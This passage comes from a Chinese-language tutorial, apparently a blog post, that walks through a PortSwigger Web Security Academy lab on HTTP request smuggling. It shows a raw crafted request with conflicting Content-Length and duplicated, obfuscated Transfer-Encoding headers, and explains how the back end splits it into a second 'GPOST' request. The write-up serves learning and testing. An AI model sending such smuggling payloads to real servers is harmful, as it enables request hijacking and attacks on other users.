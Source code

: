 这里同上一个场景一样，需要在最后添加两个 CRLF ：

```plain
0\r\n
\r\n
```

我们就可以得到如下图的响应：

[![](assets/1698897445-312a3d9168d4ae80303395afe5c08dea.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191123002425.png)

我们可以看到这里是用了两个 TE 字段，并且第二个 TE 字段值非标准值，这里 Front 选择对第一个 TE 进行优先处理，整个请求则为正常请求，会转发给 Backend 服务器，而 Backend 服务器以第二个 TE 进行优先处理，而第二个 TE 值非正常，则会取 CL 字段进行处理，这样这个请求就会因为 CL 字段设置的值 4 而被拆分为两个请求。

第一个请求：

```plain
POST / HTTP/1.1
Host: acfd1f201f5fb528809b582e004200a3.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=9swxitdhJRXeFhq77wGSU7fKw0VTiuzQ
Cache-Control: max-age=0
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: nothing

12
```

第二个请求：

```plain
GPOST / HTTP/1.1

0
```

这样就发送了一个无法识别的 HTTP Method GPOST 请求。

## Attack Surface

